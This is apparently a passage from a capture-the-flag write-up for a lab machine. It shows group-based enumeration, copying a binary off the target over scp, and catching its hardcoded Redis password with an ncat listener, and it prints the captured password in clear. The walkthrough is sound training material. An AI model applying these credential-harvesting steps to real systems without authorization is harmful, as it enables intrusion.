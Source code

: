 While doing some basic enumeration we find out again that this user apart from being also a member of the developer group is member of a new suspicious group called sysadmin.
```bash
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```
### Sysadmin group

Let's check for files that can be accessed by the sysadmin group.
```bash
dan_smith@shared:~$ find / -group sysadmin -ls 2>/dev/null
    17914   5836 -rwxr-x---   1 root     sysadmin  5974154 Mar 20  2022 /usr/local/bin/redis_connector_dev
```

It seems that we have permission to execute a binary called "redis_connector_dev".
```bash
dan_smith@shared:~$ file /usr/local/bin/redis_connector_dev
/usr/local/bin/redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
```

Trying to execute the binary yields the following key information.
```bash
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15

...(SNIP)...
```

It's logging in to redis using a password, that sounds like it may be hardcoded inside the binary.

### Analyzing the binary.

We start by transferring the binary to our machine in order to examine ir locally.
```bash
scp -i dan.key dan_smith@shared.htb:/usr/local/bin/redis_connector_dev .
```

If we run it locally unsurprisingly it will fail as we don't have an instance of redis running in our machine.
```bash
./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
 dial tcp 127.0.0.1:6379: connect: connection refused
```
Before dealing wi RE we could try to sniff the network with Wireshark or we can be more hacky and lazy and setup ncat to listen in port 6379 and see what happens.

```bash
❯ ncat -lnkvp 6379
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::6379
Ncat: Listening on 0.0.0.0:6379
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:58116.
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```
